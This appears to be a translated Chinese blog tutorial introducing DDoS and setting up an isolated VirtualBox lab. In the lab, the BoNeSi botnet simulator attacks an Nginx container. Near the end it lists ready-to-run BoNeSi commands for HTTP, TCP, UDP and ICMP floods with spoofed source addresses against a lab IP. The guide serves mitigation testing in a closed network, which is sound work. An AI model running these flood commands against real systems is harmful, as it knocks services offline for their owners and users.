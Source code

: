 # DDoS 简介 BoNeSi 工具之旅。

> 原文：<https://itnext.io/ddos-intro-journey-to-bonesi-tool-8b43d53228ac?source=collection_archive---------5----------------------->

**什么是分布式拒绝服务攻击(DDoS)？**

![](img/9bbd2f946cad9a47cf50aa72ffc09a17.png)

摘自我的笔记本:什么是 DDoS？僵尸网络？(下面的链接)

**常见攻击类型:**

![](img/569a7c84c42db5ed97a70ef7e39d8aec.png)

摘自我的笔记本:DDoS 攻击的常见类型(链接如下)

DDoS 的概念性介绍在下面的手册中。(免费)

**DDoS 的口袋书可以在以下链接免费下载:**
[https://www . slide share . net/SakthiSaravananShanm/distributed-denial-of-services-DDoS-attacks-conceptual-intro](https://www.slideshare.net/SakthiSaravananShanm/distributed-denial-of-services-ddos-attacks-conceptual-intro)

有许多 DDoS 缓解工具和策略。我们必须仔细选择和准备我们的系统。为了强调我们的系统，*一个流行的僵尸网络模拟器工具是* **BoNeSi** 。

![](img/f82a7ba53f80ae6c66649dfb9f222d6c.png)

注意:DDoS 缓解系统应该是可信的:)而不是 DDoS 攻击者的系统。

让我们准备一个简单的测试平台，包括 BoNeSi 工具来模拟僵尸网络。

**必备工具:**

*   VirtualBox 已安装[[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads)]
*   Ubuntu 服务器镜像[[https://releases.ubuntu.com/20.04/](https://releases.ubuntu.com/20.04/)

**准备:**

我们应该记住，DDoS 攻击建议在封闭的测试床(隔离的)下运行。所以(但是)在创建隔离网络之前，让我们通过在攻击者的机器上安装 BoNeSi 工具和在受害者的机器上安装 Nginx 服务器来准备设置。

*   使用下载的 Ubuntu 映像，使用 VirtualBox 启动两台虚拟机。

> *姑且称这两台机器为 BoNeSi & BoNeSi-Target。
> — BoNeSi 虚拟机将运行 BoNeSi 工具来创建 DDoS 攻击。
> — BoNeSi-Target 将运行一个简单的 nginx 服务器(作为受害者)。*

*   使用简单的 NAT 网络适配器启动机器(仅)> > > >[稍后会移除]。

—这是为了下载所需的插件和工具。

*   一旦虚拟机准备就绪！！！

—登录 BoNeSi 机器安装 BoNeSi 工具。

*   首先，安装 BoNeSi 依赖库来编译 BoNeSi 工具。

```
sudo apt install build-essential
sudo apt install libpcap-dev
sudo apt install libnet1-dev
sudo apt install autoconf
sudo apt install automake
sudo apt install gcc
sudo apt install git
sudo apt install make
```

*   然后通过运行以下命令安装 BoNeSi。

```
git clone [https://github.com/Markus-Go/bonesi.git](https://github.com/Markus-Go/bonesi.git) 
autoreconf -f -i
./configure
make
make install
```

> 此时此刻，BoNeSi 应该已经准备好了。尝试运行' bonesi '命令，您应该能够看到下面的输出。

![](img/cad74431878ce30a062fe7a9f0a30f60.png)

> ***注:*** *万一你在一个没有互联网的系统里。您可以将库和 BoNeSi repo SCP 到您的机器中。首先使用下面的命令从有互联网的系统下载所需的二进制文件:(用库名代替<包> )*

```
apt-get download $(apt-rdepends <package>|grep -v "^ "|grep -v "libc-dev")
```

这将创建一个. deb 包。SCP 这些。deb 打包到 BoNeSi 机器上，运行下面的命令进行安装:(从复制的位置)

```
sudo dpkg -i *.deb
```

—登录 BoNeSi-Target 机器安装 Nginx 服务器。这将像一个受害者服务使用以下命令。

```
sudo apt install docker.io
sudo docker pull nginx
```

*** **试验台现已为实际配置做好准备** ***

**设置配置:**

*   从 VirtualBox 保存虚拟机状态并关闭机器。
*   删除(取消选中 NAT 网络适配器选项)，再次使用内部网络选项启动虚拟机(隔离环境)。

![](img/3384ef04eceb004e9454b84ec160b8ce.png)

VirtualBox 内部网络适配器设置

```
 **Note:** Before starting the VM, go to Setting tab for each VM and select Internal Network as Network Adaptor in the Network Tab.
- Let's name the Internal Network as *(intnet1) => you can change it.* ** Select the same 'Internal Network' (intnet1) for both the VMs **
```

*   如果您注意到在使用内部网络选项(使用“ifconfig -a”命令)启动虚拟机后，虚拟机内部的 IP 配置，您将不会看到为该接口配置的 IP。您必须使用文件“/etc/net plan/00-installer-config . YAML”中的以下内容对其进行静态配置。

> 注意:正确使用接口名称，在我的例子中 enp0s10 是名称。

![](img/5752425a97b305f531f3d02d8e4d6b5c.png)

```
**Note:** 
*Gateway should be pointing to BoNeSi machine's IP from BoNeSi-Target machine. Verify using,*sudo ip route | grep ^defaultOtherwise, you might face this issue:
[https://github.com/Markus-Go/bonesi/issues/7](https://github.com/Markus-Go/bonesi/issues/7)
```

*   然后运行“sudo netplan apply”命令，并在需要时使用“sudo reboot”重新启动系统。
*   此时，应该已经为接口配置了 IP。
*   使用“ping”命令验证虚拟机之间的连接，应该会成功。

现在使用下面的命令启动 BoNeSi-Target 机器中的 Nginx 服务器:

```
sudo docker run -d --network="host" nginx:latest
sudo docker ps
```

现在，我们的隔离网络中有两台虚拟机。一个在端口 80 上运行 Nginx 服务器，另一个使用 BoNeSi 工具。是时候使用下面的示例命令从 BoNeSi 工具向 Nginx 服务器发起 DDoS 攻击了。

> ***注意:*** *命令参数中使用的 my-ip.txt 文件不应包含属于内部网络的 ip，否则您将面临此问题。*
> [https://github.com/Markus-Go/bonesi/issues/11](https://github.com/Markus-Go/bonesi/issues/11)

**HTTP 洪水请求:**

```
sudo bonesi -p tcp -u / -d enp0s10 -i my-ip.txt 192.168.56.120:80
```

**TCP 泛滥请求:**

```
sudo bonesi -p tcp -d enp0s10 -i my-ip.txt 192.168.56.120:80
```

**UDP 泛洪请求:**

```
sudo bonesi -p udp -d enp0s10 192.168.56.120:80
```

**ICMP 洪水请求:**

```
sudo bonesi -p icmp -d enp0s10 192.168.56.120:80
```

![](img/9c1e17d027994a2592179df84c7133bf.png)

抽样输出

有许多令人兴奋的选项可以产生各种类型的攻击(包括僵尸网络计数等等)。您可以在 BoNeSi 命令帮助上进一步探索。

我希望这篇文章在某种程度上有助于理解 DDoS 和 BoNeSi 工具。

> 感谢 Ankur Srivastava 和 Vishal Mansur 为我提供了使用这个工具的机会。
> 
> 感谢马努·马修斯和卡比尔·T 对我能力的信任。这真的改变了我的职业生涯！
